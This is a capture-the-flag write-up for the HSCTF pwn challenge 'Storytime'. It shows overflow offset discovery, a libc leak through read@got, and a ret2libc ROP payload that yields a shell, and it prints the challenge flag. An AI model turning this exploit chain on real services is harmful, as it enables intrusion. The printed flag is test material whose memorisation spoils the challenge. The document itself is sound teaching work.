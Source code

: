 ## Problem info
<table>
  <tr>
    <td><strong>Name</strong></td>
    <td>Storytime</td>
  </tr>
  <tr>
    <td><strong>Category</strong></td>
    <td>Pwn</td>
  </tr>
  <tr>
    <td><strong>Flags</strong></td>
    <td>hsctf{th4nk7_f0r_th3_g00d_st0ry_yay-314879357}</td>
  </tr>
  <tr>
    <td><strong>Files</strong></td>
    <td>storytime</td>
  </tr>
  <tr>
    <td><strong>Tags</strong></td>
    <td></td>
  </tr>
  <tr>
    <td><strong>Hints</strong></td>
    <td></td>
  </tr>
</table>

#### Message
Written by: Tux

I want a story!!!

`nc pwn.hsctf.com 3333`

## Solution
First checksec and see functions.
```
gdb-peda$ checksec
CANARY    : disabled
FORTIFY   : disabled
NX        : ENABLED
PIE       : disabled
RELRO     : Partial
```
```
gdb-peda$ info function
All defined functions:

Non-debugging symbols:
0x00000000004004a0  write@plt
0x00000000004004b0  read@plt
...
0x00000000004005b7  beginning
0x00000000004005d4  middle
0x00000000004005f1  end
0x000000000040060e  climax
0x000000000040062e  main
...
```

Seems to be a read-write-leaking lib base challenge. Let's take a look into the functions. We see `write` in end and `read` main.
```
gdb-peda$ disas end
...
   0x0000000000400606 <+21>:    call   0x4004a0 <write@plt>
   0x000000000040060b <+26>:    nop
   0x000000000040060c <+27>:    pop    rbp
End of assembler dump.
```

Then let's find the buffer overflow offsets.

```
gdb-peda$ disas main
Dump of assembler code for function main:
...
   0x0000000000400691 <+99>:    call   0x4004b0 <read@plt>
   0x0000000000400696 <+104>:   mov    eax,0x0
   0x000000000040069b <+109>:   leave
...
End of assembler dump.

gdb-peda$ b* 0x000000000040069b
Breakpoint 1 at 0x40069b

gdb-peda$r
>AAAAAAAA

[------------------------------------stack-------------------------------------]
0000| 0x7ffffffeddd0 ("AAAAAAAA\n")
0008| 0x7ffffffeddd8 --> 0xa ('\n')
0016| 0x7ffffffedde0 --> 0x4006a0 --> 0x41d7894956415741
0024| 0x7ffffffedde8 --> 0x4004d0 --> 0x89485ed18949ed31
0032| 0x7ffffffeddf0 --> 0x7ffffffedee0 --> 0x1
0040| 0x7ffffffeddf8 --> 0x0
0048| 0x7ffffffede00 --> 0x4006a0 --> 0x41d7894956415741
0056| 0x7ffffffede08 --> 0x7fffff021b97 (<__libc_start_main+231>:       mov    edi,eax)
```

Therefore overflow offset = 0xe08 - 0xdd0 = 0x38

Second, we need got, so let's leave gdb-peda
```
$ objdump -R storytime| grep read
0000000000601020 R_X86_64_JUMP_SLOT  read@GLIBC_2.2.5
```
now we got read@got = 0x601020

Next we need pop rdi and pop rsi.
```
$ ROPgadget --binary ./storytime | grep 'pop rdi'
0x0000000000400703 : pop rdi ; ret
$ ROPgadget --binary ./storytime | grep 'pop rsi'
0x0000000000400701 : pop rsi ; pop r15 ; ret
```

notice there is a `pop r15` in pop_rsi, remember to deal with that.
along with the given `write` position in end and going to pwn main
```
write = 0x0000000000400606
main = 0x000000000040062e
```

now the information to the binary is enough, let's construct the payload!

First step, leak the libc base ( real address) .
overload -> calling write to write **read_got** -> back to main in order pwning
```
payload = 'a' * buf
payload += flat([pop_rsi,read_got])
payload += flat([0x15])
payload += flat(write)
payload += flat([0xdeadbeef])
payload += flat(main) #jump back main for further pwning
```

let's save the actual address of **read** to rcv
```
r.recvuntil("Tell me a story: \n")
rcv  = u64(r.recv(8))
```

now all we need is the distance of read and system, /bin/sh in libc to get the shell. Here using online [libc position library](https://libc.blukat.me/?q=__libc_start_main%3A0x7ff40347d740&l=libc6_2.23-0ubuntu10_amd64)

so we now we can construct our pwning payload
```
rop = 'a' * buf
rop += flat([pop_rdi,bin_sh,sys])
```

Enjoy the shell!

```
$ python payload.py
[+] Opening connection to pwn.hsctf.com on port 3333: Done
0x7f6a5fb68250
======
[*] Switching to interactive mode
...

Tell me a story:
$ ls
bin
dev
flag
lib
lib32
lib64
storytime
$cat flag
hsctf{th4nk7_f0r_th3_g00d_st0ry_yay-314879357}
```

